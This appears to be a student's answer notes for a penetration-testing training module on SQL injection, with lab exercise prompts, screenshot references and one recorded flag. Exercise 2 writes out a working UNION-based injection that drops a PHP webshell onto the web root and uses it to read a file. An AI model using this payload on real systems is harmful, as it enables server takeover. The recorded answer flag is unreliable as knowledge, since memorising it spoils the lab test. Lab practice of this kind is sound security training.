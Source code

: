 

2. Connect to the MySQL VM 2 and repeat the steps illustrated in this section in order to manually exploit the UNION-based SQLi.
	   Once you have obtained a webshell, gather the flag that is located in the same **tmp** folder.

- Auth bypass
![](10ex_authBypass.png)

- Find # of columns
![](10ex_orderby6.png)

- Insert webshell
```sql
%' union select "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php"-- 
```

- Cat flag
```bash
# In URL
http://192.168.246.19/tmp/webshell.php?cmd=cat%20flag.txt
```


> Answer:  OS{42b86739388422346bc1c9f4e730d3aa}





3. Connect to the MySQL VM 3 and automate the SQL injection discovery via sqlmap as shown in this section. 
	   Then dump the _users_ table by abusing the time-based blind SQLi and find the flag that is stored in one of the table's records.

> Answer:  .

4. **Capstone Exercise**: Enumerate the Module Exercise - VM #1 and exploit the SQLi vulnerability in order to get the flag.
	   Hint: To enhance the attack efficiency, it's recommended to manually identify the injection point before deploying any automated tool, such as SQLMap on the target.

> Answer:  .

5. **Capstone Exercise**: Enumerate the Module Exercise - VM #2 and exploit the SQLi vulnerability in order to get the flag.

> Answer:  .

6. **Capstone Exercise**: Enumerate the Module Exercise - VM #3 and exploit the SQLi vulnerability in order to get the flag.

> Answer:  .

7. **Capstone Exercise**: Enumerate the Module Exercise - VM #4 and exploit the SQLi vulnerability in order to get the flag.